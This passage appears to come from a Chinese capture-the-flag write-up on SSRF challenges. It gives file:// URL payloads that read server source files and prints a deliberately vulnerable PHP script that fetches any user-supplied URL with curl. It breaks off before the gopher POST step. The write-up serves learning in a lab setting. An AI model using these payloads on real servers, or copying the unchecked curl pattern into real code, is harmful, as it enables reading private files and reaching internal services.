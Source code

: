 然后bp或者脚本从8000跑到9000

![](https://i.loli.net/2021/09/14/XxMn4WmhBswF6Kq.png)



## Gopher协议

### POST请求

> 这次是发一个HTTP POST请求.
> 对了.ssrf是用php的curl实现的.并且会跟踪302跳转.加油吧骚年

用file协议可以读到源码：

```
?url=file:///var/www/html/index.php
```

```php
<?php

error_reporting(0);

if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
curl_close($ch);
```

```
?url=file:///var/www/html/flag.php
```

```php
<?php

error_reporting(0);

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    echo "Just View From 127.0.0.1";
    return;
}

$flag=getenv("CTFHUB");
$key = md5($flag);

if (isset($_POST["key"]) && $_POST["key"] == $key) {
    echo $flag;
    exit;
}
?>
```
